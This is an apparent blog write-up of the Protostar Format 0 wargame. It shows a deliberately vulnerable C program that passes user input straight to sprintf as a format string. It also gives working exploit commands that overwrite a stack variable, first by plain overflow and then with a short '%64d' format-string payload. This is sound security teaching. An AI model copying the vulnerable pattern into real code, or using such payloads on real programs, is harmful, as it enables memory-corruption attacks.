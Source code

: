 ```yaml
---
title: "Exploit Exercises - Protostar Format 0"
date: "2012-01-24T05:13:00-05:00"
comments: true
highlight: "true"
categories:
 - formatstring
 - wargames
 - Protostar
 - linux
 - exploit-exercises
 - hacking
aliases:
 - "/2011/12/exploit-exercises-protostar-format-0.html"
 - "/2011/12/14/exploit-exercises-protostar-format-0"
---
```


I'll be honest, I'm new to format string exploits.  I've been more experienced with stack overflows, and a little with heap overflows.  So hopefully this information is correct, as it's from my current understanding. 

<!-- more -->

[Protostar Format 0](http://exploit-exercises.com/protostar/format0) starts us off with the following vulnerable code: 

```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void vuln(char *string)
{
 volatile int target;
 char buffer[64];

 target = 0;

 sprintf(buffer, string);

 if(target == 0xdeadbeef) {
  printf("you have hit the target correctly :)\n");
 }
}

int main(int argc, char **argv)
{
 vuln(argv[1]);
}
```

Looking at this code, somehow we have to get the variable, "target", which is never set anywhere other than to "0", to equal "0xdeadbeef".  Luckily, the "target" variable is on the stack, right before the "buffer" variable.  That means, if we can overflow "buffer", it'll leak out into "target". I decided for my understanding, that I would modify the c source file a little, so I could see what was going on better.  I added in 3 additional printf statements.  (This is mainly because I wasn't smart enough to get gdb to tell me where "buffer" and "target" were in memory.) 

```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void vuln(char *string)
{
        volatile int target;
        char buffer[64];

        target = 0;

        sprintf(buffer, string);

        printf("Target: %08x\n", target);
        printf("Address of target: %08x\n", &target);
        printf("Address of buffer: %08x\n", &buffer);

        if(target == 0xdeadbeef) {
                printf("you have hit the target correctly :)\n");
        }
}

int main(int argc, char **argv)
{
        vuln(argv[1]);
}
```

Now, when I execute my custom compiled version, it gives me useful information:

```
user@protostar:~$ ./format0_1
Target: 00000000
Address of target: bffff7bc
Address of buffer: bffff77c
```
Just to verify that there was no spacing after "buffer" and before "target", I took those 2 values, and did some math: 

```
user@protostar:~$ perl -e 'print 0xbffff7bc-0xbffff77c . "\n"'
64
```

Initially, I thought this looked a lot like a stack overflow, especially since it did work as one: 

```
user@protostar:/opt/protostar/bin$ ./format0 `perl -e 'print "A"x64 . "\xef\xbe\xad\xde"'`
you have hit the target correctly :)
```

This is cheating though, since this is to demonstrate format string exploitation, and the [Format 0](http://exploit-exercises.com/protostar/format0) page says specifically:

>"This level should be done in less than 10 bytes of input."

So grumbling that I was going to have to do extra work, I started reading about string format exploitation.  A great document was titled ["Exploiting Format String Vulnerabilities"](http://crypto.stanford.edu/cs155/papers/formatstring-1.2.pdf), by scut / team teso</a>. 

It was in this document, that I found that you can actually tell the c compiler to read a certain number of bytes into a format.  I had seen this done half a dozen times before, but never knew that's what it was doing.  For example: 

```
printf("Target: %08x\n", target);
```

Normally for a hex formatting, you would simply use "%x" as the placeholder.  Well, apparently if you use "%08x", it will format it with 8 hex characters.  This is so that when "target" is set to 0, it actually prints "0x00000000" instead of "0x0".  Very nice! 

The same works for other types, such as decimal ("%d").  Since in the c program, it's doing: 

```
sprintf(buffer, string);
```

With this code, "string" is the first argument you pass to the program.  Since sprintf won't stop until it reads a null byte (as in a null terminated string), I just formatted it to read 64 bytes, and then concatenated "deadbeef" in little endian to it: 

```
user@protostar:/opt/protostar/bin$ ./format0 `perl -e 'print "%64d" . "\xef\xbe\xad\xde"'`
you have hit the target correctly :)
```

You could also format it with the "%64d" not in the perl statement, but I don't think it looks as readable. 

```
user@protostar:/opt/protostar/bin$ ./format0 %64x`perl -e 'print "\xef\xbe\xad\xde"'`
```

So there you have it.  That's definitely under 10 bytes of input.  I still have room for 2 more bytes if I need.
